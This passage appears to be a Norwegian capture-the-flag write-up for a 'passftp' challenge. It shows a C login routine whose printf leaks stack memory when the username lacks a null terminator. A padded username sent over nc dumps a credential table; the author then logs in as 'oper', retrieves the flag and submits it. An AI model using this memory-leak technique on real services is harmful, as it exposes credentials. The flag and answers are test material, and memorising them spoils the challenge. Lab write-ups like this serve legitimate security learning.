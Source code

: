 ```c
    } else if (result == 0) {
        puts("Invalid username or password");
        return -1;
    } else {
        // no nullbyte means this would print the data further along on the
        // stack aswell
        printf("Welcome %s\n", username);
        return result;
    }
}
```

Using it:
```sh
$ nc passftp.utl 1024
Welcome to passFTP Server v1.0
Please login to continue
Username: anonymousaaaaaaaaaaaaaaaaaaaaaaaanonymousaaaaaaaaaaaaaaaaaaaaaaa
Password: Welcome anonymousaaaaaaaaaaaaaaaaaaaaaaaanonymous:anonymous:1
oper:418f2a707d998f324b0bdc0297f7b987:2
admin:nopasswd:3

passFTP> Unknown command
passFTP> 
```

Logging in:
```sh
$ nc passftp.utl 1024
Welcome to passFTP Server v1.0
Please login to continue
Username: oper 
Password: 418f2a707d998f324b0bdc0297f7b987
Welcome oper

passFTP> Unknown command
passFTP> ls
total 4
-rw-r--r-- 1 admin admin 40 Dec 22 12:58 FLAGG
passFTP> get FLAGG
Downloading file FLAGG
FLAGG: 6ab18aa0172d156759365be27b9b40a6

passFTP> 
```

```sh
$ scoreboard 6ab18aa0172d156759365be27b9b40a6
Kategori: 2.5. Department of Security
Oppgave:  2.5.2_passftp
Svar:     6ab18aa0172d156759365be27b9b40a6
Poeng:    10

Godt jobbet! Vi har funnet en fil med kildekode knyttet til et MOV<-16-system. Vi har lagt den i oppdragsmappen din på corax. Kanskje du får bruk for den i Department of Nuclear Power?

Ny fil: /home/login/2_oppdrag/access16-v1.6.mos
```
